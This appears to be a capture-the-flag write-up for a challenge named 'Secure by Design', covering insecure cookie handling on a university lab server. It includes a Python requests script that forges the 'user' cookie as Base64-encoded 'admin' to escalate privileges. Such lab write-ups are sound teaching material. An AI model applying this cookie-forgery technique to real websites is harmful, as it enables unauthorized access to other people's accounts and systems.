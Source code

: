 # Challenge "Secure by Design" Writeup

## Vulnerability: Insecure Cookie Handling

### Where: Setting and manipulating cookies, and handling user input

### Impact: The code may be susceptible to unauthorized access or privilege escalation due to insecure cookie handling. Additionally, there might be potential vulnerabilities related to session integrity.

**NOTE**: The provided code interacts with a web server, sets user cookies, and attempts to manipulate a cookie value to gain unauthorized access. It uses the `requests` library for HTTP requests and `base64` for encoding.

## Steps to reproduce:

1. The code establishes a session using the `requests.Session()` object to persist cookies between requests.

2. Accesses the first link to set the user cookie and prints the response.

3. Creates a data dictionary containing the 'username' field.

4. Makes a POST request to the server with the provided data.

5. Encodes the string "admin" to Base64 and updates the 'user' cookie in the session with the encoded value.

6. Prints the updated cookies in the session.

7. Prints the response from the POST request.

8. Makes a GET request to the server and prints the response.

**Observations:**

- The code attempts to manipulate the 'user' cookie to have the value "admin" by encoding it to Base64.

- The session handling does not consider secure practices, and there may be potential security risks associated with unauthorized cookie manipulation.

## Code:

```python
import requests
import base64

link = "http://mustard.stt.rnl.tecnico.ulisboa.pt:23056"

# Create a session to persist the cookies between requests
s = requests.Session()

# Access the first link to set the user cookie
response1 = s.get(link)
print(response1.text)

data = {
    'username': 'mmabreu'
}

# Make the POST request
response2 = s.post(link, data=data)

# Encode "admin" to Base64
new_value = "admin"
new_cookie_value = base64.b64encode(new_value.encode('utf-8')).decode('utf-8')

# Set the updated cookie in the session with the correct domain
s.cookies.set('user', new_cookie_value, domain='mustard.stt.rnl.tecnico.ulisboa.pt')

# Print the updated cookies
print("Updated Cookies:", s.cookies)

print(response2.text)
print(s.cookies)

response3 = s.get(link)
print(response3.text)
